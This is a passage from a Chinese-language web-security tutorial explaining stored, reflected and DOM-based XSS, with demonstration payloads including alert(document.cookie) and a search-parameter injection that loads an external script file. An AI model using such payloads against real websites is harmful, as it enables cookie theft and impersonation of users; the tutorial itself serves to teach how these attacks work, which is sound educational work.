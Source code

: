 ```
<script>alert(document.cookie);</script>
```

然后在用户的浏览器上则会展示为：

```
<div>
  <script>
    alert(document.cookie);
  </script>
</div>
```

然后在浏览器渲染完页面后，代码执行，用户的 cookie 便会被攻击者获取到。如果本身是访问量很大的网站，就有可能被获取到许多用户的信息，甚至如果代码本身是对网站服务器具备破坏性的，会导致服务器资源耗尽。

### 反射型 XSS（Reflected XSS）

当用户的输入会立即得到服务器反馈（例如商城搜索结果、错误提示和其他响应等内容是部分或者全部来自于用户的请求）时，攻击者可以利用漏洞，对请求注入恶意代码，生成 URL 诱导用户访问，导致发生反射型 XSS。

一般攻击流程是：

1. 攻击者往输入框中输入恶意代码（比如在搜索页作为搜索关键词）
2. 生成恶意 URL
3. 诱导用户点击
4. 携带在 URL 中的恶意搜索关键词对服务器发起请求
5. 服务器将搜索关键词拼接在 HTML 中作为响应返回
6. 浏览器无差别解析渲染页面
7. 恶意代码执行，冒充用户行为或者窃取用户信息

举例说明就是某个网站带有检索的 URL 为`www.website.com?search=xxx`，然后检索的内容会被显示在页面中：

```
<input value="<%= getSearch(search) %>" />
```

然后攻击通过在链接中注入恶意的代码`www.website.com?search="><script src="www.xssJs.js"></script><span`，然后诱导用户去访问这个链接：

因为页面会把检索字段作为请求发给服务器，在服务器处理完字段后会把检索内容拼接进 html 返回给客户端，用户访问的页面里 html 就变成：

```
<input value="" />
<script src="www.xssJs.js"></script>
<span" />
```

浏览器渲染完页面后，混入其中的这段代码就会去加载攻击者指定的 js 文件，然后对用户造成一定的影响。

### 基于 DOM 的 XSS（DOM Based XSS）

由于客户端某处调用不安全的 JavaScript，并且使用了不受信任的数据来源更新 DOM，便会导致发生基于 DOM 的 XSS 攻击。

一般的攻击流程：

1. 攻击者生成带有恶意查询的 URL
2. 诱导用户访问 URL
3. 浏览器无差别解析渲染页面
4. 客户端通过 document.location 读取查询字段
5. 查询字段直接传入 JavaScript 执行，，冒充用户行为或者窃取用户信息
